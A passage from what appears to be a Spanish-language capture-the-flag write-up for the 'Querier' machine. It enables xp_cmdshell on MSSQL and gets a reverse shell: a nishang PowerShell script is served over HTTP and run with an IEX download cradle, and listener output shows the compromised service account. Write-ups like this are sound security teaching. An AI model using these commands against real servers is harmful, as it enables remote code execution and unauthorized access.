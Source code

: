 Explicamos un poco los comandos ejecutados. Primero tratamos de ejecutar un comando a nivel de sistema con `xp_cmdshell`; sin embargo nos manda un error, por lo tanto tratamos de cambiar el valor de `xp_cmdshell` de 0 a 1 con `sp_configure "xp_cmdshell, 1"`, pero otra vez nos sale otro error. A este punto cambiamos el valor de `show advanced` de 0 a 1, lo cual nos lo permite y aplicamos una reconfiguración para que se apliquen los cambios con `reconfigure`. Ahora nos queda cambiar el valor de `xp_cmdshell` de 0 a 1, aplicamos un `reconfigure` y ya podemos ejecutar comando a nivel de sistema.

Vamos a entablarnos una reverse shell, copiamos el archivo *Invoke-PowerShellTcp.ps1* a nuestro directorio de trabajo:

```bash
❯ cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 PS.ps1
```

Abrimos el archivo y al final agregamos la siguiente linea:

```bash
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.2 -Port 443
```

Nos compartimos un servidor HTTP con python, nos ponemos en escucha a través del puerto 443 y procedemos a ejecutar lo siguiente en la máquina víctima:

```bash
SQL> xp_cmdshell "powershell IEX(New-Object Net.WebClient).downloadString(\"http://10.10.14.2/PS.ps1\")"
```

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.125 - - [17/Sep/2021 15:50:09] "GET /PS.ps1 HTTP/1.1" 200 -
```

```bash
❯ rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.125] 49702
Windows PowerShell running as user mssql-svc on QUERIER
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

whoami
querier\mssql-svc
PS C:\Windows\system32>
```

Antes de hacer cualquier cosa, validamos si nos encontramos en un sistema de 64 bits y en un proceso igual:

```bash
[Environment]::Is64BitOperatingSystem
True
[Environment]::Is64BitProcess
True
PS C:\Windows\system32>
```

A este punto ya poder visualizar la flag (user.txt). Ahora solo falta escalar privilegios, por lo que empezamos a enumerar un poco el sistema.
